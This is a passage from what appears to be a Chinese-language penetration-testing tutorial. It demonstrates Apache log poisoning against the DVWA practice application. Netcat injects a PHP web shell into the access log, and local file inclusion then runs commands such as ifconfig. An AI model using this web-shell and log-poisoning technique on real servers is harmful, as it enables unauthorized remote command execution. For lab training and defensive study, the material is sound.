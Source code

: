 从前面的屏幕截图可以看出，日志文件的内容显示在页面上。现在，让我们继续使用`netcat`对日志文件进行毒害。首先，按如下方式启动 Netcat:`nc 192.168.1.102 80`。启动后，向服务器发送以下命令：`http://192.168.1.102/dvwa?id=<?php echo shell_exec($_GET['cmd']);?>`

![](img/d32a907e-459e-4a88-b7a9-14f67b5ce1d3.png)

答对 了我们现在已对日志文件下毒。现在让我们试着发出一个命令，比如`ifconfig`，看看它是否会被执行。我们将浏览的 URL 如下：`http://192.168.1.102/dvwa/vulnerabilities/fi/page=/var/log/apache2/access.log&cmd=ifconfig`。

注意`cmd`参数。我们正在发送`ifconfig`命令，该命令将由以下代码行调用：

`<?php echo shell_exec($_GET['cmd']);?>, translating to <?php echo shell_exec(ifconfig)?>`

以下屏幕截图中突出显示的区域显示我们的命令已成功执行：

![](img/9735f03d-5ff3-45bc-9ccc-a0611ebbab1a.png)
